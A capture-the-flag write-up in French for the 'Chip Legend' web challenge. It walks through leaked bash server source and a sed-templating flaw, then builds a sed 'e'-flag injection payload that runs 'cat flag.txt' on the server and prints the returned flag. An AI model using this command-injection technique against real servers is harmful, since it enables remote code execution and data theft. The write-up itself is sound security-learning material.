

# Chip Legend

## RECON

Information donnee:
- http://REDACTED:9003
- ./flag.txt

Voici le site web:


Si on click sur un jeton



On obtient donc sa valeur avec l'image. 
Regardons la source de code:

```html

<html>
  <head>
    <title> 
      Chip legend
    </title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/css/bootstrap.min.css">
    <style>
       body {
          background: radial-gradient(#B3B1C3 , #47464D);
       }

      #box {
          position: absolute;
          left: 50%; /* relative to nearest positioned ancestor or body element */
          top: 50%; /*  relative to nearest positioned ancestor or body element */
          transform: translate(-50%, -50%); /* relative to element's height & width */
        }
    </style>
  </head>
  <body>
      <center id="box">

        <h1> Chip Legend </h1>
        <a href="/chip.html?value=5&color=black"> 
          IMG en base64
        </a>

        <a href="/chip.html?value=10&color=red"> 
            IMG en base64
        </a>


        <a href="/chip.html?value=20&color=orange"> 
            IMG en base64
        </a>

        <a href="/chip.html?value=100&color=blue"> 
            IMG en base64
        </a>

      </center>
    <!-- p> Powered by : <a href="/bttpd.sh"> basHTTPd </a> | A unix approach to the web. <p> -->
  </body>
</html>
```

Je constate 2 chose,
- Les parametre `value` et `color` sont passer a `chip.html`
- Powered by : <a href="/bttpd.sh"> basHTTPd </a> | A unix approach to the web.

Je tente d'aller sur $TARGET/bttpd.sh

A ma grande surprise j'ai le code source du serveur

```bash
#!/usr/bin/bash

# basHTTPd !
# UnIx PoWeR FoR ThE WeB
#
read -rd '' RESPONSE << EOF
HTTP/1.0 :code:
Date: $(date)
Server: bttpd/0.1
Content-Type: text; charset=ISO-8859-1
Content-Length: :length:
Connection: close


EOF

WWW="$PWD/www"
ROOT_FILE="$PWD/www/index.html"


serve ( ) {
  ROUTE=$1
  ARGS=$2

  local FILE=""
  local CONTENT=""
  local LENGTH=0

  if [[ "${ROUTE}" == "/" ]]; then
    FILE="${ROOT_FILE}"
  elif [[ "${ROUTE}" == "/bttpd.sh" ]]; then
    FILE="${0}"
  else
    FILE="${WWW}${ROUTE}"
  fi

  if [[ -f "${FILE}" ]]; then

    CONTENT="$(cat "${FILE}")"

    ARGS=$(echo "${ARGS}" | tr '&' ' ')
    for ARG in $ARGS; do
        NAME=$(echo "${ARG}" | cut -d '=' -f 1)
        VAL=$(echo "${ARG}" | cut -d '=' -f 2)
        VAL=$(echo "${VAL}" | tr -d '<' | tr -d '>' | tr -d '"' | tr -d "'") # XSS protection
        CONTENT=$(echo "${CONTENT}" | sed s@:$NAME:@$VAL@g )
    done

    LENGTH="${#CONTENT}"
    [[ "${FILE}" == "${0}" ]] && LENGTH=$((LENGTH-4))

    echo -en "${RESPONSE}" | sed 's/:code:/200 OK/' | sed "s/:length:/${LENGTH}/"
    echo -en "${CONTENT}"

  else
    echo -en "${RESPONSE}" | sed 's/:code:/404 NOT FOUND/' | sed "s/:length:/0/"
  fi

}


handle ( ) {
  read -r REQUEST  

  URI=$(echo "${REQUEST}" | cut -d ' ' -f 2)
  if [[ "${URI}" =~ .*\.\..* ]]; then
    echo -en "${RESPONSE}" | sed 's/:code:/400 BAD REQUEST/' | sed 's/:length:/0/'
    return
  fi

  if [[ "${URI}" == *'?'* ]]; then
    ARGS=$(echo "${URI}"| cut -d '?' -f 2)
  fi

  ROUTE=$(echo "${URI}" | cut -d '?' -f 1)
  if [[ "${ROUTE}" =~ ^/[a-z0-9A-Z/\.]*$ ]]; then
    serve "${ROUTE}" "${ARGS}"
  else
    echo -en "${RESPONSE}" | sed 's/:code:/400 BAD REQUEST/' | sed 's/:length:/0/'
  fi
}

handle
```

# Exploitation

Grosso modo je comprend que dans les fichier .html il y a des places holder comme `:value:` et `:color:` et que le "templating" est fait avec `sed`

En analysant le code source...
```bash
    ARGS=$(echo "${ARGS}" | tr '&' ' ')
    for ARG in $ARGS; do
        NAME=$(echo "${ARG}" | cut -d '=' -f 1)
        VAL=$(echo "${ARG}" | cut -d '=' -f 2)
        VAL=$(echo "${VAL}" | tr -d '<' | tr -d '>' | tr -d '"' | tr -d "'") # XSS protection
        CONTENT=$(echo "${CONTENT}" | sed s@:$NAME:@$VAL@g )
    done
```

Les charactere `>` `<` `"` `'` sont retirer des arguments

Mais ce qui m'a mis la puce a l'oreil...
```bash
CONTENT=$(echo "${CONTENT}" | sed s@:$NAME:@$VAL@g )
```
`s@:$NAME:@$VAL@g`


Donc, je tente de faire un paylaod pour que la ligne devienne quelque chose comme..
`CONTENT=$(echo "${CONTENT}" | sed s@:color:@cat flag.txt@e) #@g )`

Apres plusieurs tentative et de test locale. `cat\x20flag.txt@e;` fais le travail demander!

```
HTTP/1.0 200 OK
Date: Thu Oct 24 04:31:33 PM UTC 2024
Server: bttpd/0.1
Content-Type: text; charset=ISO-8859-1
Content-Length: 292443
Connection: close

<html>
  <head>
    <title> 
FINCTF-0d81b352888d9ca8ed044551c39af9
    </title>
```


And rawr does the dinosaur.